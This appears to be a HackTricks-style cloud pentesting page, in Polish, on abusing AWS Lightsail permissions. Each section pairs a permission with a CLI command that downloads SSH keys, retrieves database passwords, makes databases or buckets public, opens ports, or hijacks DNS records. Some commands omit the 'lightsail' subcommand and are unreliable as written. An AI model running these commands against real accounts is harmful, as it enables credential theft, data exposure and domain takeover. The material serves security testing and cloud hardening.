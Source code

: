 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Aby uzyskać więcej informacji o Lightsail, sprawdź:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Ważne jest, aby zauważyć, że Lightsail **nie używa ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, więc nie możesz nadużywać tej usługi do privesc. Jednak **wrażliwe dane**, takie jak kod, klucze API i informacje o bazach danych, mogą być dostępne w tej usłudze.

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie pozwoli Ci uzyskać klucze SSH do uzyskania dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie pozwoli Ci wygenerować klucze SSH do uzyskania dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie pozwoli Ci uzyskać klucz do dostępu do koszyka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w zasobniku.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie pozwoli Ci uzyskać dane logowania do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie pozwoli Ci zmienić hasło do dostępu do bazy danych:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Jeśli baza danych nie jest publiczna, możesz również uczynić ją publiczną z tymi uprawnieniami z
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu. Należy zauważyć, że wywołanie to zamknie każdy port otwarty, który nie jest na liście.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

Te uprawnienia pozwalają na przyznanie instancjom dostępu do koszyka bez dodatkowych poświadczeń.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potencjalny wpływ:** Potencjalny nowy dostęp do koszyków z wrażliwymi informacjami.

### `lightsail:UpdateBucket`

Dzięki temu uprawnieniu atakujący mógłby przyznać swojemu własnemu kontu AWS dostęp do odczytu koszyków lub nawet uczynić koszyki publicznymi dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalny wpływ:** Potencjalny nowy dostęp do kubełków z wrażliwymi informacjami.

### `lightsail:UpdateContainerService`

Dzięki tym uprawnieniom atakujący mógłby przyznać dostęp do prywatnych ECR z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalny wpływ:** Uzyskanie wrażliwych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Napastnik z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

{{#include ../../../banners/hacktricks-training.md}}

